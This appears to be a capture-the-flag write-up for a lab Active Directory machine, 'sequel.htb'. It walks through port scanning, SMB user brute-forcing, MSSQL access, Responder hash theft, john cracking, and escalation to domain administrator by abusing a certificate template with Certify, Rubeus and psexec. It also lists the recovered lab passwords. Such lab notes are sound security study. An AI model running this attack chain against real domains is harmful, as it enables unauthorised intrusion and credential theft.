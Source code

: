 # Enumeration - open ports

```
53/tcp   open  domain        Simple DNS Plus                                                                  
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-02-27 01:39:34Z)                   
135/tcp  open  msrpc         Microsoft Windows RPC                                                            
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn                                                    
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-Firs
t-Site-Name)  
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-Firs
t-Site-Name)
1433/tcp open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-Firs
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-Firs
```
## Port 53

no DNS transfer
## Port 135

![[Pasted image 20230226200723.png]]

## Port 445
![[Pasted image 20230226194617.png]]
![[Pasted image 20230226194729.png]]
![[Pasted image 20230226194857.png]]

`domain sequel.htb`
`cme smb $ip -u /opt/SecLists/Usernames/xato-net-10-million-usernames.txt -p '' --shares`
found user `info` 
![[Pasted image 20230226200433.png]]
`smbclient -U info //$ip/Public`
![[Pasted image 20230226200459.png]]
![[Pasted image 20230226201202.png]]

![[Pasted image 20230226201146.png]]
![[Pasted image 20230226201501.png]]

## Port 1433
mssqlclient.py PublicUser@$ip
[Hacktricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server)
![[Pasted image 20230226201648.png]]
![[Pasted image 20230226201849.png]]
`SELECT name FROM master.dbo.sysdatabases;`
```sql
select name,
       create_date,
       modify_date,
       type_desc as type,
       authentication_type_desc as authentication_type,
       sid
from sys.database_principals
where type not in ('A', 'R')
order by name;
```
![[Pasted image 20230226202435.png]]

db users:
public
dbo
sys
using Responder to steal hash
![[Pasted image 20230226202904.png]]
cracking hashing using john
`john hash --wordlist=/usr/share/wordlists/rockyou.txt`
![[Pasted image 20230226203047.png]]
![[Pasted image 20230226203143.png]]
adding username and password to the rest of info we found earlier
![[Pasted image 20230226203352.png]]
![[Pasted image 20230226203537.png]]
# Foothold 
## sql_svc -> Ryan.Cooper
![[Pasted image 20230226203551.png]]
using conpty to get fully interactive shell 
![[Pasted image 20230226203832.png]]
![[Pasted image 20230226203839.png]]
getting AD info using bloodhound-python   
`bloodhound-python --dns-tcp -ns $ip -d sequel.htb -u 'sql_svc' -p 'REGGIE1234ronnie' -c all`
users:
Tom.Henn
Brandon.Brown
Ryan.Cooper
sql_svc
Nicole.Thompson
`C:\SQLServer\Logs\ERRORLOG.BAK`

![[Pasted image 20230226222508.png]]
![[Pasted image 20230226222541.png]]
![[Pasted image 20230226222908.png]]
![[Pasted image 20230226224029.png]]
# Privesc 

## Ryan.Cooper
doing the same what we did with previous user and getting conpty shell on target
![[Pasted image 20230226225233.png]]
running winpeas on the target found out that the domain uses certificates to authenticate users 
![[Pasted image 20230227025723.png]]

run [Certify.exe](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/blob/master/Certify.exe) Tool to check for any vulnerabilities 
![[Pasted image 20230227030752.png]]
Using [HackTricks](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation)
Here are the steps of what we are going to do
1. First we get a certificate with the user administrator
2. convert cert.pem file to pfx file
3. run Rubeus to get TGT for the user 
4. convert .kirbi ticket to ccache 
5. login with psexec


`.\Certify.exe request /ca:dc.sequel.htb\sequel-DC-CA /template:UserAuthentication /altname:administrator`
![[Pasted image 20230227032705.png]]
![[Pasted image 20230227031556.png]]
we copy the output to a file called cert.pem and then get the cert.pfx file
`openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx`
![[Pasted image 20230227032726.png]]
then we create the TGT ticket using Rubeus
`.\Rubeus.exe asktgt /user:administrator /certificate:cert.pfx /password:Password1 /ptt`
![[Pasted image 20230227032931.png]]
get ticket to a file and it's base64
![[Pasted image 20230227033507.png]]
remove all extra spaces 
in vim 
`:%s/ //g`
then decode it
`cat ticket.kirbi.b64 | base64 -d > ticket.kirbi`
change ticket to ccache format then connect using psexec
`python ticket_converter.py ticket.kirbi ticket.ccache`
![[Pasted image 20230227034332.png]]
`psexec.py sequel.htb/administrator@$ip -k -no-pass`
![[Pasted image 20230227034310.png]]
`ntpdate $ip` fix clock
using proper syntax it worked
![[Pasted image 20230227041116.png]]
`psexec.py sequel.htb/administrator@dc.sequel.htb -k -no-pass`
# Loot
mssql public user
	username: `PublicUser`
	password: `GuestUserCantWrite1`
user sql_svc evilwirm:
	username: `sql_svc`
	password: `REGGIE1234ronnie`
user Ryan.Cooper
	username: `Ryan.Cooper`
	password: `NuclearMosquito3`

---
Tags: #ctf #AD #smb #Rubues #Certify #Misconfigured_Certificate_Template #CVE-2022-26923
Resources: 
[HackTricks](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation)
[Certify.exe](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/blob/master/Certify.exe)
[CVE-2022-26923](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2022-26923)
[SpecterOps](https://posts.specterops.io/certified-pre-owned-d95910965cd2)
